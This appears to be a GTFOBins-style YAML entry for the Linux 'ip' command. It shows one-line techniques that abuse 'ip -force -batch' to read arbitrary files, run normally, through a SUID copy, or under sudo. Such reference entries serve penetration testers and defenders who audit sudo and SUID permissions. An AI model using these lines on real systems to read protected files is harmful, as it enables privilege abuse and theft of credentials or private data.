 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ip -force -batch "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./ip -force -batch "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ip -force -batch "$LFILE"
---
```

